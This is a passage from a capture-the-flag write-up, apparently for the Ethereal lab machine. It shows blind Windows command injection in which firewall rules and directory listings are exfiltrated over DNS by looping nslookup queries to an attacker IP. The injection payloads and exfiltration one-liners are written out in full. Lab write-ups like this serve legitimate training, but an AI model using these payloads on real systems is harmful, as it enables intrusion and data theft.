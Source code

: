 ![230850816.png]({{site.baseurl}}/Images/Ethereal/230850816.png)

Much cleaner. Now time to try and do something useful with the RCE.

As part of our enumeration due diligence we always check the firewall to see if it is trying to hide something from us. Console output is a bit iffy, so we have to do all we can to save console output as clean as possible to a file ans read the output. After a lot more enumeration we discover we have write permissions to the public user directory so we are going to use that as our logging directory. With the blind command chaining, we can run commands directly and trust that they are working because we won't get any output.
```
|| netsh advfirewall firewall show rule name=all | findstr "Rule Name:" | findstr "Allow" > C:\users\public\desktop\shortcuts\PortsAllowedThoseguys
```

This will write the output of all the allowed ports into a file we can then read. From there we can just read the file with the type command:
```
|| for /f "tokens=1,2,3,4,5,6,7,8" %a in ('type "c:\users\public\desktop\shortcuts\PortsAllowedThoseguys"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h 10.10.14.22
```

![230687051.png]({{site.baseurl}}/Images/Ethereal/230687051.png)

We can see that we have UDP port 53 open as well as TCP ports 73, 136, 80 and 8080 open.

Changing over to enumerating the file system:
![230687005.png]({{site.baseurl}}/Images/Ethereal/230687005.png)

Reading the documentation of the `for /f` command we see that it mentions

> By default, /F breaks up the line at each blank space " "

and that we can use the tokens argument to return only the parts of the line that we care about.

After playing around in a local windows cmd we determine that token 4 lists information about the file or directory and token 5 will list the file or directory name (and if names have spaces we also take 6 and 7 in case)
![230818153.png]({{site.baseurl}}/Images/Ethereal/230818153.png)

It's not great, but we are reading files. We have no idea where from, so lets start at the top:
![230719844.png]({{site.baseurl}}/Images/Ethereal/230719844.png)

Something is still not quite right, maybe we can take some of the guess work out of our tokens by changing the command. [dir](https://ss64.com/nt/dir.html) has a `/B` argument that removes additional info leaving us with just the file and folder names. We know that on Windows x64 at the root level we will get at least 3 tokens for `Program Files (x86)` if it exists, so we update the command:
```
|| for /f "tokens=1,2,3" %a in ('dir /B "C:\"') do nslookup %a.%b.%c 10.10.14.22
Because nslookup expects 2 arguments we need to use a character to join our strings, rather than separating them with a space (so it looks like a domain)
```

![230687013.png]({{site.baseurl}}/Images/Ethereal/230687013.png)
